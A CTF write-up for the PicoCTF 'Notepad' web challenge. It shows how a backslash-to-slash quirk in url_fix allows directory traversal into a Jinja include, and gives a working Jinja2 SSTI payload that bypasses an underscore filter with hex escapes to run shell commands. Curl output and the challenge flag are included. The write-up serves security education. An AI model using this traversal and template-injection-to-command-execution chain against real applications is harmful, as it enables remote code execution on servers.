 ```yaml
---
title:  "PicoCTF - Notepad"
date:   2024-09-15 15:23:10 
categories: [Write-ups, PicoCTF]
tags: [web]
description: SSTI via error message
---
```


## app.py 

 ```python
 @app.route('/user/<name>')
def greet_user(name):
    return render_template('greet.html', name=name)
```

https://notepad.mars.picoctf.net/ render **index.html** with context variable "error" .

```python
@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
https://notepad.mars.picoctf.net/new for uploading notes. Variable **content** is taken from the HTML form, filtered with '_' and '/' and if occur, redirect to error html. If not, store new file html note in folder static with file name is `static/{url_fix(content[:128])}-{token_urlsafe(8)}.html`

### url_fix()
Its deprecated in the werkberg library ([here](https://tedboy.github.io/flask/generated/werkzeug.url_fix.html)). Source:
```python
def url_fix(s, charset='utf-8'):
    r"""Sometimes you get an URL by a user that just isn't a real URL because
 it contains unsafe characters like ' ' and so on. This function can fix
 some of the problems in a similar way browsers handle data entered by the
 user:

 >>> url_fix(u'http://de.wikipedia.org/wiki/Elf (Begriffskl\xe4rung)')
 'http://de.wikipedia.org/wiki/Elf%20(Begriffskl%C3%A4rung)'

 :param s: the string with the URL to fix.
 :param charset: The target charset for the URL if the url was given as
 unicode string.
 """
    # First step is to switch to unicode processing and to convert
    # backslashes (which are invalid in URLs anyways) to slashes.  This is
    # consistent with what Chrome does.
    s = to_unicode(s, charset, 'replace').replace('\\', '/')

    # For the specific case that we look like a malformed windows URL
    # we want to fix this up manually:
    if s.startswith('file://') and s[7:8].isalpha() and s[8:10] in (':/', '|/'):
        s = 'file:///' + s[7:]

    url = url_parse(s)
    path = url_quote(url.path, charset, safe='/%+$!*\'(),')
    qs = url_quote_plus(url.query, charset, safe=':&%=+$!*\'(),')
    anchor = url_quote_plus(url.fragment, charset, safe=':&%=+$!*\'(),')
    return to_native(url_unparse((url.scheme, url.encode_netloc(),
                                  path, qs, anchor)))
   ```

Notice that we have
 ```python
s = to_unicode(s, charset, 'replace').replace('\\', '/')
```
which is crucial for bypass "/" filter.

## index.html
{% raw %}
```html
    <!doctype  html>
    {% if error is not none %}
		    <h3>
		    error: {{ error }}
		    </h3>
		    {% include "errors/" + error + ".html" ignore missing %}
    {% endif %}
    <h2>make a new note</h2>
    <form  action="/new"  method="POST">
    <textarea  name="content"></textarea>
    <input  type="submit">
    </form> 
 ```
 {% endraw %}

Here, flask used Jinja2 (can SSTI). The **sink** could be the jinja template. Since https://notepad.mars.picoctf.net/?error=7*7 not works, cause the server treats the error string, so the Jinja template could not evaluate it.

{% raw %}
=> **Sink**: {% include "errors/" + error + ".html" ignore missing %}
{% endraw %}


To do that, we have:
```python
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
From there, we can perform directory traversal to folder **errors**, then by
{% raw %}
     {% include "errors/" + error + ".html" ignore missing %}
{% endraw %}     
we evaluate SSTI payload.

## Exploit
With use of url_fix(). We note:

    make a new note
    
    ..\templates\errors\123abc

=> Redirect to: https://notepad.mars.picoctf.net/templates/errors/123abc%0D%0A-4vnyXEK_tLc.html. Then we access it. 
=> https://notepad.mars.picoctf.net/?error=123abc%0D%0A-4vnyXEK_tLc

    error: 123abc -4vnyXEK_tLc
    
     make a new note
{% raw %}
Do the same with simple payload {{7*7}}
{% endraw %}

=>
{% raw %}
    error: 123abc {{7*7}}-mAQRWwnJPVg
{% endraw %}

    make a new note

Since it in the name of file, we cant evaluate it, to do this: from **app.py**:
```python
 name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
 ```
{% raw %}
After processing with `url_fix()`, the `{{7*7}}` expression contained special character `{` and `}`. So if its exist in the URL, we just pass the value of variable `error`, not the file that we made.
{% endraw %}

So what we need is make the content longer, then the payload is outbound of 128 characters =>
URL path is valid for access => SSTI!

**Payload:**
{% raw %}
    ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{7*7}}
{% endraw %}

 ```bash   

    $ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
    <!doctype html>
    
      <h3>
        error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
      </h3>
      ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa49
    
    <h2>make a new note</h2>
    <form action="/new" method="POST">
      <textarea name="content"></textarea>
      <input type="submit">
    </form>
```

Then we got this "49".
After a long while to craft my payload with [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), here is my payload for by pass the `_`
 
 **Payload:**
{% raw %}
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("ls", shell=True, stdout=-1).communicate()[0].strip()}}
```
{% endraw %}


```bash
$ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
<!doctype html>

  <h3>
    error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
  </h3>
  ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab&#39;app.py\nflag-c8f5526c-4122-4578-96de-d7dd27193798.txt\nstatic\ntemplates&#39;

<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```
Do the last round for the flag:
{% raw %}
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt", shell=True, stdout=-1).communicate()[0].strip()}}
```
{% endraw %}


> picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}

